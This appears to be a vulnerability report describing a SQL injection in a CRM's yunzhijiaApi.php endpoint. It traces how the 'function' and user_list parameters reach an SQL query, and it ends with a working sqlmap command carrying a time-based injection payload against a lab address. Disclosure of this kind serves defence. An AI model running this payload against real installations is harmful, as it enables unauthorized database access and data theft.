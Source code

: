 # 1、Open the target source code and determine the current version

<img width="415" height="287" alt="image" src="https://github.com/user-attachments/assets/f0691304-5627-465d-9aa5-5d0abe9a47fb" />

# 2、Locate the vulnerability file =>  crm/WeiXinApp/yunzhijia/yunzhijiaApi.php

<img width="415" height="183" alt="image" src="https://github.com/user-attachments/assets/47ee0dd5-df59-4cc0-a63c-8f5d29e87b96" />

# 3、According to the code, we can analyze that the execution process of the PHP file is as follows
## a、Get request parameters  $function = $_REQUEST["function"];

<img width="415" height="147" alt="image" src="https://github.com/user-attachments/assets/77e11dbc-badf-4f72-8b6d-e92fec2a2553" />

## b、Instantiate a class object , This class has already been defined below.
$obj = new yunzhijiaApi($root_dir,$adb); 

<img width="415" height="208" alt="image" src="https://github.com/user-attachments/assets/0b282907-3d15-48e1-bfa8-c10bee3c3e36" />


## c、Call the function of this class, and the function name is passed in from the request parameter 'function', which means we can control the function called by this class.
## d、 Find the vulnerability function delete_user in the yunzhijiaApi class; From the code, it can be seen that the request parameter user_ist is concatenated into the SQL execution statement, resulting in an SQL injection vulnerability. Since the parameter user_list is processed by the json decode function, when submitting the user_list parameter, it needs to be submitted in JSON format, such as user_st={"name": "jacky"}

<img width="379" height="237" alt="image" src="https://github.com/user-attachments/assets/49727da7-c20d-459f-af2a-277e37bd98bc" />


# 4.Vulnerability verification
## The following is the target website access page

<img width="315" height="155" alt="image" src="https://github.com/user-attachments/assets/edec5bfe-98e1-4569-b9c7-7b64d2f188f7" />

## Use the sqlmap tool to detect

python sqlmap.py -u "http://192.168.8.12:85//crm/WeiXinApp/yunzhijia/yunzhijiaApi.php?function=delete_user&user_list={%22name%22:%22jacky%27)*%22}" --level 5 --risk 3 --dbms mysql  --technique=T --time-sec 20

<img width="415" height="193" alt="image" src="https://github.com/user-attachments/assets/113e1abd-9dc7-4961-95e1-5b89ebb0a6cd" />


# The above is the complete content of this vulnerability. Thank you for your review and time!





